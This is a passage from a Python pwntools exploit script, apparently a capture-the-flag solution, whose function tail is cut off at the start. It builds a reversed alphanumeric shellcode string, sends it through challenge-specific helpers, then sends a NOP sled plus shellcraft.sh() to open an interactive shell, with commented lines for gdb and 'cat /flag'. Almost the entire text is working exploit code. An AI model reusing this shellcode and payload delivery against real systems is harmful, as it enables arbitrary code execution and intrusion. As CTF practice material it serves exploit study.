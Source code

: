 ```python
        return result
    assert(len(sc)<=145)
    sc=rev_messstr(sc)
    payload=b''
    for i in sc:
            payload+=long_to_bytes(i)
    return payload


init = get_gift()
seed = get_seed(init)
# print(seed)

full_list = get_full_list(seed)
k = (gen_reversed_payload(b'RXWTYH39Yj3TYfi9WmWZj8TYfi9JBWAXjKTYfi9kCWAYjCTYfi93iWAZjATYfi9430t800t820T860T87RAPZ0t83ZRARZ0t85Z17HAF1HZP'))
action_list = generate_payload(k, full_list)
send_payload(action_list)
# gdb.attach(p, 'b *$rebase(0x13b9)')
# pause(4)
send_number(b'4\n')


sc = b'\x90'*0x70 + asm(shellcraft.sh())

p.sendafter(b'good luck to you!\n', sc)
# p.sendline('cat /flag')
p.interactive()


# print(len(k))
# print(k)
```

